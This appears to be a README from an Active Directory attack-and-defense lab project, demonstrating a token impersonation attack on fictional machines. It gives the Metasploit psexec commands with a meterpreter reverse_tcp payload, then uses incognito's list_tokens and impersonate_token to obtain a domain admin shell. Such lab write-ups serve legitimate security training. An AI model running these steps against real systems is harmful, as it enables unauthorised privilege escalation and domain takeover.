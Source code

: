 # Token Impersonation Attack LAB DEMO

Token Impersonation is a Post- compromise attack which can be used for lateral movement or domain escalation. This attack scenario will demonstrate how attackers can use these token of privileged users like ADMIN to escalate their domain privileges.

<br>Imagine we have two machines, one user machine (BATMAN) and one Domain Controller (JUSTICE-DC). and as an attacker we managed to compromise one of the user machines (BATMAN) and now we have local admin privileges. <br>
Now we can perform a Post-compromise enumeration using tools like `Bloodhound` and **identify active sessions of privileged users.**

<br>Now Imagine a Domain Admin `HERO/Administrator` logged into to `BATMAN`. Since we have a DOMAIN ADMIN session on our compromised computer, we can list the available tokens and use them to impersonate ADMINISTRATOR using a tool called `incognito` from Metasploit.

#### ATTACK METHODOLOGY:

1. First We need to connect to the machine using the `psexec` module using the compromised username and password.

```bash
msfconsole                           #Starts Metasploit
use exploit/windows/smb/psexec       #Loads psexec module
```

2. Then we need to set all the necessary options like RHOST, username password, domain, targets etc.. and run. This will generate a `meterpreter` session.

```
set RHOST "REMOTE HOST IP"
set SMBDomain "TARGET DOMAIN NAME"
set SMBUser "COMPROMISED USER NAME"
set SMBPass "COMPROMISED USER PASSWORD"
set payload /windows/x64/meterpreter/reverse_tcp
```

![metershell](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/ac183b97-aa1d-444c-9445-a83700f52b8a)

<br>
3. Now load the `incognito` module using `load incognito` command. This module has commands which lists all the available tokens which can be later used for impersonation.

```bash
load incognito

list_tokens -u
```

![loadincognoto](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/58c62b77-be80-4dc6-b763-2870c29f6f8c)


4. We have a delegation token for the ADMINISTRATOR. This means that the domain admin of `HERO.local` had logged into `BATMAN` at some point using their credentials. 

5. To take advantage of the this token, we will run the `impersonate_token `command with the domain admin name `HERO\Administrator` to impersonate their account.

```bash
impersonate_token HERO\\Administrator
```

![Adminshell](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/fde2df64-cac0-40d5-ad3a-06f6c201850d)


Now we have an DOMAIN ADMIN shell session on `BATMAN` machine !!!  Now we can use this session to perform actions that require elevated privileges like making changes to the domain. Adding a new user, adding user to ADMIN group
